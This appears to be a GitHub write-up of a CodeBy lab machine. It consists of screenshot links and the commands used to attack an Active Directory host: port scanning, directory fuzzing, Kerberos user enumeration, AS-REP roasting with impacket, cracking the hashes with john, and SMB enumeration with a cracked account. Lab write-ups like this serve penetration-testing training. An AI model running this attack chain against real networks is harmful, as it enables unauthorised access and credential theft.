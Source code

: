 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9b1a1fa1-3977-465a-936d-aabb7f6ec6b1)
```
nmap -p- 192.168.2.5 -v -sC -sV -sT
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dc38f948-3fbc-41eb-b06d-d646b90d74f6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0709d19-35c3-467f-9171-a6d9ca956d2b)
```
ffuf -u http://192.168.2.5/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/02645807-6241-44a2-b4be-3a669b84d2d3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ae52dfd7-4a15-4c67-880f-f50fbd7c42b8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b628ccdc-b505-40d4-86b4-c505a90cb525)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.5 user.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48a61bd2-5566-4a3b-86d6-e86e199ed03c)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3274c1ab-228c-432f-afaf-0f2b3b95b055)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3dbbd25-a7cb-4df1-90cf-306ec7ee6856)
```
smbmap -u "a.fedotov" -p "PASS" -d codeby.cdb -H 192.168.2.5
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec7ae321-e8f1-4620-8c10-b6059add3170)
```
smbclient '//192.168.2.5/Andrey Fedotov' -U a.fedotov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e7ee330-c368-4a6c-9f74-dc08b3263b32)

```
enum4linux-ng 192.168.2.5 -u 'a.fedotov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2c99b7f1-94f0-475d-8163-bb398f225231)

